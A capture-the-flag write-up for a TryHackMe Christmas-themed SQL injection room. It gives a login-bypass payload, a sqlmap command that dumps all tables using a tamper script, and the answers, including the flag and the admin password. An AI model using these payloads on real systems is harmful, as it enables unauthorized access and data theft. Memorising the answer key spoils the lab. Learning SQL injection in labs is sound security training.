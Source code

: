 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2883%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%2810%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2850%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2877%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2822%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2858%29.png)

![](../.gitbook/assets/image%20%2815%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2828%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2878%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%283%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

